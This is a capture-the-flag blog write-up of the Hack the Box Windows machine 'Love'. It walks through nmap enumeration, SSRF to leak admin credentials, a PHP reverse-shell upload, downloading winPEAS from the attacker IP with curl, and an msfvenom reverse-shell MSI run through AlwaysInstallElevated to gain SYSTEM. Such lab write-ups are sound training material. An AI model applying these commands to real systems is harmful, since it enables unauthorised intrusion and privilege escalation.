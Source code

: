 +++
author = "Nick"
categories = ["hack the box", "easy", "windows", "reverse shell", "AlwaysInstallElevated", "msfvenom"]
date = 2021-08-07T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/05/love.png"
slug = "hack-the-box-love"
summary = "Welcome back! Today we are going to be doing the Hack the Box machine - Love. This is listed as an Easy Windows machine. Let's jump in.\n"
tags = ["hack the box", "easy", "windows", "reverse shell", "AlwaysInstallElevated", "msfvenom"]
title = "Hack the Box - Love"
url = "/hack-the-box-love"

+++


Welcome back! Today we are going to be doing the Hack the Box machine - Love. This is listed as an Easy Windows machine. Let's jump in.

As always, we kick it off with `nmap`.

Here are our results:
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, X11Probe: 
|_    Host '10.10.14.125' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-05-18T18:25:43+00:00; +32m45s from scanner time.
| tls-alpn: 
|_  http/1.1
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/18%Time=60A3FE4D%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.125'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,4B
SF:,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.125'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h17m46s, deviation: 3h30m02s, median: 32m44s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-18T11:25:33-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-18T18:25:30
|_  start_date: N/A
```

One of the first things we see is the DNS name given as `love.htb` and `staging.love.htb`. So we'll add this to our hosts list. Next we'll head over to see what's being hosted on port 80. We see a voting system. Next we check port 5000, nothing, it's forbidden. Next up is port 5040, nothing, it just times out. We check out `love.htb` on port 443, also forbidden. Now we'll head over to see what's being hosted on `staging.love.htb`.

When we land on this virtual host, we see a file scanning service. WE even have the option to demo the software. The page is asking for a URL to scan. So we setup a `netcat` listener on our local machine and point it to that URL.

![](/images/2021/05/image-35.png)

Interesting. So, to test this further, we can create a file and see what happens when the URL is a file. We simple create a file with touch, populate it with junk data and host it. We then use the demo to read the file and get whatever it might tell us about the file.

Commands:
`touch 1.lst`
`echo 'hi' > 1.lst`
`simple` (This is an alias'd to `SimpleHTTPServer` for me)

![](/images/2021/05/love_test.gif)

So we know that it will read the contents of whatever the item we supply is. So my thought here is to let this demo read the pages that were forbidden to us earlier. If the server is trying to query itself, it's likley we won't get forbidden. Port 443 didn't yield anything, however port 5000 did!

![](/images/2021/05/image-36.png)

Awesome, we have some credentials `admin`:`@LoveIsInTheAir!!!!`. Now we need to identify where we can use them. They don't work in the standard entry form. To dig a bit more we'll use `gobuster` to help enumerate more.

Command:
`gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

We find an `admin` directory.

![](/images/2021/05/image-37.png)

Awesome, the credentials work on this interface! Once we're in the admin portal, we look around for additional ways to pivot. After looking around, it seems like uploading a shell as a user profile picture could be a valid method. There are many `php shells` out there, pick one you [like](https://github.com/pentestmonkey/php-reverse-shell).

![](/images/2021/05/love_shell.gif)

We setup our listen and catch a connection back immediately. We then navigate to `Phoebe`'s Desktop and snag the `user.txt` flag! Awesome, now it's time to start enumerating so we can find a path forward. We'll spin up a `SimpleHTTPServer` and transfer over `winPEAS`. A quick check shows we have `curl` on the system, we'll use that to get our file.

Command:
`curl http://10.10.14.125/winPEAS.bat -o wp.bat`

![](/images/2021/05/image-39.png)

That takes quite a while to run, but after sifting through the results, it looks like we can use `AlwaysInstallElevated` to [escalate](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path).

First we'll generate a payload via `msfvenom`.

Command:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.125 LPORT=6969 -f msi -o rootme.msi`

Once that is generated, we can host it via `SimpleHTTPServer` and download it onto the target. Once its on the system, we run the following command.

Command:
`msiexec /quiet /qn /i C:\Users\Phoebe\Downloads\rm.msi`

![](/images/2021/05/image-38.png)

We catch a shell back as `system`! Let's get the `root.txt` flag and we have completed the box!



